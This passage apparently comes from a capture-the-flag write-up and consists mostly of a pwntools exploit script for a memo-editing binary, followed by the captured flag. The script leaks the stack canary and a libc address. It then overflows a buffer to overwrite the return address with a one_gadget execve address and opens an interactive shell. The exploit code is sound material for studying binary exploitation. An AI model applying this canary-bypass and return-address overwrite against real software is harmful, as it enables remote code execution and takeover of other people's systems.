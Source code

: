```python
# print(leak)
leak = leak.replace(b"A", b"") # replace dummy 'A' from leak
leak = u64(leak.rjust(8, b"\x00"))
print(f"leak (CANARY): {hex(leak)}")
CANARY = leak

# get libc leak
#######################################
offset = 47
payload = b"B" * offset

print(r.recvuntil("> "))
r.sendline("2") # Edit Memo
print(r.recvuntil(": "))
r.sendline("goodluck") # password
print(r.recvuntil(": ")) # position
r.sendline(str(1)) # memo size
print(r.recvuntil(": "))
r.sendline(payload) # payload to leak libc address
print(r.recvuntil("> "))
r.sendline("3") # View, to get leak
print(r.recvuntil(": "))
r.sendline("goodluck") # password
print(r.recvline())

leak = r.recvline().rstrip()
# print(leak)
leak = u64(leak.ljust(8, b"\x00"))
print(f"leak (libc): {hex(leak)}")

# calculate offsets inside libc
libc_leak = leak
libc_base_offset = 147587
libc.addr = libc_leak - libc_base_offset
EXECVE_OFFSET = 0xe3b01 # found from one_gadget
EXECVE = libc.addr + EXECVE_OFFSET
print(f"EXECVE: {hex(EXECVE)}")

# get SHELL
#############################
offset = 24
payload = p64(CANARY)
payload += b"A" * offset
payload += p64(EXECVE)

print(r.recvuntil("> "))
r.sendline("2") # Edit Memo
print(r.recvuntil(": "))
r.sendline("goodluck") # password
print(r.recvuntil(": ")) # position
r.sendline(str(1)) # memo size
print(r.recvuntil(": "))
r.sendline(payload) # payload to overwrite ret address and call execve()
print(r.recvuntil("> "))
r.sendline("4") # Exit, to call ret

r.interactive()
```

## Flag
`flag{efa542e3-2f01-4124-83b2-41612def9993}`
